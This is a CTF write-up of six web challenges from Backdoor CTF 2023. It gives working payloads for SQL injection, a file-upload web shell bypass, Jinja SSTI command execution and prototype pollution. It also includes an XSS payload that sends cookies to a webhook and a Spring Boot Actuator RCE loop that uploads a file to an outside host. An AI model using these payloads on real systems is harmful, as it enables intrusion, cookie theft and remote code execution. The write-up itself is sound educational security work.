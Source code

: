 
---
layout: post
title: Backdoor CTF 2023 Web Challenges
author: m0z
categories: [Jeopardy]
tags: [ctf,web]
---

## web/too-many-admins
Downloading the source, we can see this is a PHP challenge. Just a single PHP file and the flag is located in the database (dump.sql).

I immediately noticed the SQL injection here:

```php
$query = "SELECT username, password, bio FROM users where username = '$userParam' ";
```
Trying a simple blind SQLi payload `1'or'1'='1` on the `user` GET parameter reveals the entire database (limited to `id`, `user` and `password`).
I immediately noticed many of the hashes were [Magic Hashes](https://medium.com/@codingkarma/not-so-obvious-php-vulnerabilities-388a3b7bf2dc).

This is a hash which begins with `0e` followed by a string of numerical values. PHP has a difficult time with these hashes because it evaluates them to be loosely equal to zero due to PHP treating `e` as a symbol for an exponent.
So I wrote up a script to try `240610708` as the password for each admin user (there are 500).

While this script was running, I realized that the SQL injection vulnerability would actually allow us to dump the flag if we use a UNION query. Since the flag is stored in the `bio` column, we can simply use `1' UNION SELECT null, bio, null FROM users-- -` to dump the flag.

In the end, both techniques worked. Judging from the flag, the intended solution was actually the magic hash approach.

`flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}`

## web/php-sucks
Opening the source for this challenge we notice the flag is a file on the server this time. With only a file upload, it is pretty clear that we will require an arbitrary file upload vulnerability to read the flag.

All the PHP code was in a single line so the first thing I did was paste this into a PHP beautifier. This made it easier to see what was happening in the code.

The implementation looked pretty secure. However, there was one line in particular that I didn't like:
```php
$fileName=strtok($fileName,chr(7841151584512418084));
```
This modified the filename; splitting it by a token and taking the first instance of the resulting array. What's strange is that `chr(7841151584512418084)` doesn't correspond to a normal character. I decided to run this PHP code and see what symbol it corresponded to and was pleasantly surprised that it was `$`.

So, we can upload a file named `shell.php$.jpg` and we will pass the initial file extension checks, ensure that the mimetype check is also satisfied. Then, it will be later renamed to `shell.php` by the aforementioned call to `strtok()`.

So uploading an image containing PHP code somewhere inside it (which is still a valid image) will work. After uploading, I found the flag and ran the command to view it `cat ../../s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt`.

`flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`

## web/Unintelligible-Chatbot
This was the first sourceless challenge on the CTF. I pretty quickly tested for most obvious injection types include XSS and SSTI. Our SSTI payload seemed to work (`{{7*7}}` => `49`).

From initial checks, it seems to be blocking any SSTI payloads with `[]` or `.` which means we will have a difficult time accessing dictionary values. If you're used to SSTI challenges then you'll know flask has a bunch of useful approaches to handle this including the `|attr()` method.

I'd love to elaborate more on this solution but this is one of the first things I tried and it worked. 
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
`flag{n07_4n07h3r_5571_ch4ll3n63}`

## web/space-war
I felt like this was among the more "guessier" of challenges. The description mentioned letters being split up amongst various routes. So I decided to fuzz for all printable characters and found a response at `/K`. I then wrote the following script to recover the other characters:

```python
import requests
import string

o = ""

while True:
    for s in string.printable:
        r = requests.get(f"http://34.132.132.69:8005/{o}{s}")
        if "wrong path" not in r.text:
            o += s
            print(o)
            break

```

Eventually after getting `Kur0s4k1` we see the following message:

`Ohhhh myy Goddd!! you finally did it!! you are worthy, my name Kur0s4k1`

I then logged in with username `Kur0s4k1` and password `1"or"1"="1` which worked.

`flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}`

## web/armoured-notes
This was probably my favourite challenge on the CTF. We open the source code and see the flag is stored as a cookie on the admin bot. This means we will likely require XSS to solve this challenge.

However, we cannot create notes on this application as we are not an administrator. I pretty quickly noticed the dodgy usage of `Object.assign()` in the `duplicate()` method:

```javascript
export  function  duplicate(body) {
	let  obj={}
	let  keys  =  Object.keys(body);
	keys.forEach((key) => {
		if(key  !==  "isAdmin")
		obj[key]=body[key];
	})
	return  obj;
}
```

After seeing the hardcoded check for `isAdmin`, I realized that if we could add this as a field to our note when creating it (and set it to true), we could successfully overwrite the default value. This can be done using a prototype pollution.

```json
POST /create

{
	"uname":"John",
	"pass":"Doe",
	"__proto__": {
		"isAdmin": true
	},
	"message":"Your note..."
}
```

This successfully bypassed the check and created our note. I got stuck at this point for a while until I eventually ran `npm audit` and discovered there was a public XSS exploit available for ViteJS.
All the information needed to exploit this can be found [here](https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title).

Final payload which I sent to the admin bot:
```
http://34.132.132.69:8001/posts/6580526999d634eec4c73707/?"></script><script>window.location.href=`https://webhook.site/77b428d2-33c2-437f-8425-9ef657cdacea/${btoa(document.cookie)}`</script>
```

`flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}`

## web/Rocket Explorer
Credit to Protag (@0daystolive) for immediately noticing that this was vulnerable to an exposed Spring Boot Actuator ([exploit here](https://github.com/spaceraccoon/spring-boot-actuator-h2-rce)). The main challenge here was due to the server consistently crashing.

I had tried to get a reverse shell for a long time but this was not working. I was able to get a pingback but had no idea where the flag was located on the server and wasn't getting a successful backconnect from the shell payload.

I ended up having to guess various flag locations and spam requests to get the flag. I wrote this bash script to guess `/flag` which successfully worked.

```bash
while true
do
        curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream());  if (s.hasNext()) {s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'curl -T /flag <webhook>\');\"}' 'http://34.173.50.60:8080/actuator/env'
        curl -X 'POST' -H 'Content-Type: application/json' 'http://34.173.50.60:8080/actuator/restart'
done
```

`flag{sp4c3_r4cc00ns_rc3}`
